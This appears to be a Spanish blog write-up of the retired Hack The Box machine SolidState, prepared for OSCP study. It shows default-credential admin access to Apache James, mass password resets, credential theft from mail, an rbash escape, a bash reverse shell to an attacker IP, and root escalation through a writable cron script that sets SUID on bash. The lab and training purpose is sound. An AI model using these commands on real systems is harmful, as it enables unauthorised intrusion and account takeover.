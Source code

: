 ```yaml
---
layout: post
title:  "OSCP Path ~ SolidState de Hack The Box (Necesario VIP)"
categories: "HTB OSCP-PATH"
description: Writeup de la maquina de HackTheBox llamada SOLIDSTATE siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, Mail, smtpd, PopD, Remote Admin, Maquinas Retiradas, Writeup, Hacking
---
```


# SolidState ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.51      "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp   open  smtp        JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.16.218 [10.10.16.218]), 
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Chequeamos que es esto de `JAMES Remote Admin 2.3.2` con searchsploit
```bash
# searchsploit James  2.3.2
--------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                    |  Path
--------------------------------------------------------------------------------------------------------------------------
Apache James Server 2.3.2 - Insecure User Creation Arbitrary File Write (Metasploit)            | linux/remote/48130.rb
Apache James Server 2.3.2 - Remote Command Execution                                            | linux/remote/35513.py
--------------------------------------------------------------------------------------------------------------------------
```
Nos Descargamos el exploit en python, y vemos que las credenciales que usa por defecto son validas, probamos a conectarnos con `telnet` al servicio
`James Remote Admin 2.3.2`
```bash
Probamos a conectarnos via telnet por el servicio JAMES Remote Admin 2.3.2
# telnet 10.10.10.51 4555                                                                                                                       1 ⚙
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
user rootJAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id: root
Password: root
Welcome root. HELP for a list of commands
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```
 Conseguimos entrar y listamos los usuarios que hay para el servicio, viendo los comando que podemos usar, vemos que existe el comando `setpassword` parasetear las contraseñas de los usuarios a la que nosotros queramos, lo hacemos.
 ```bash
 Unknown command set password
setpassword james james
Password for james reset
setpassword thomas thomas
Password for thomas reset
setpassword john john
Password for john reset
setpassword mindy mindy
Password for mindy reset
setpassword mailadmin mailadmin
Password for mailadmin reset
```
Como habiamos visto en el archivo `el scaneo de nmap` tambien teniamos el servicio de `pop3` o `correo_electronico`
Probamos a meternos con los distintos usuarios anteriores.
```bash
Para el user:
              user mindy
              pass mindy
---------------------------------------- 2 Mails ---------------------------
1
2
-----------------------------------------------------------------------------
retr 2 -→ encontramos credenciales en el mail.
-------------------- Credenciales obtenidas en el Mail 2 --------------------------
"Username: mindy          "
"pass: P@55W0rd1!2@       "
```

Con estas credenciales probamos a conectarnos al servicio `SSH` que se encontraba abierto.
```bash
# ssh mindy@10.10.10.51                                                                                                                  
mindy@solidstate:~$ ls
bin  user.txt
mindy@solidstate:~$ cat user.txt 
0510e71c2e8c9xxxxxxxxxxxxxxx0dc2
```
Intentando enumerar un poco el sistema vemos que no estamos en una `bash`, sino en un `R-bash` que solo nos permite usar unos trees comandos.
Nos salimos de SSH y procedemos a realizar de nuevo la conexion de la siguiente forma para escaparnos del contexto de la `r-bash`

```bash
# ssh mindy@10.10.10.51 bash    
```
Una vez que nos hemos escapado del contexto de la `r-bash` procedemos a enviarnos un `r-shell` con el comando:
```bash
bash -i >& /dev/tcp/10.10.14.12/443 0>&1
```
Nos ponemos a la escucha con `Netcat` y nos montamos un server con python3 para pasar el archivo `pspy32s` a la ruta `/tmp/` 
```bash
recibimos la conexion, y procedemos a pasarnos el archivo pspy32s
para ver si hay tareas cron ejecutandose a nivel de sistema"
2021/07/16 12:33:01 CMD: UID=0    PID=1483   | python /opt/tmp.py " 
2021/07/16 12:33:01 CMD: UID=0    PID=1484   | sh -c rm -r /tmp/* 
```
Nos detecta una tarea que esta ejecutando el administrador en la ruta `/opt/tmp.py`
```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls                                                                                                                     
james-2.3.2  tmp.py 

${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -l
total 8                                                                                                                                                                                                             
drwxr-xr-x 11 root root 4096 Apr 26 12:37 james-2.3.2                                                                                                                           
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py 
```

Como podemos escribir en la tarear modificamos la misma para que nos ejecute a nivel de sistema el comando que nosotros queramos
```bash
#!/usr/bin/env python

import os
import sys

try:
      os.system('chmod u+s /bin/bash')
except:
      sys.exit(1)
```

Procedemos a hacer un bash -p 
```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ nano tmp.py 
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ watch -n 1 'ls -l /bin/bash'
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1265272 May 15  2017 /bin/bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ bash -p
bash-4.4# whoami 
root
4f4afb55463c3bc79axxxxxxxxx4953d
```

Maquina Rooteada =)
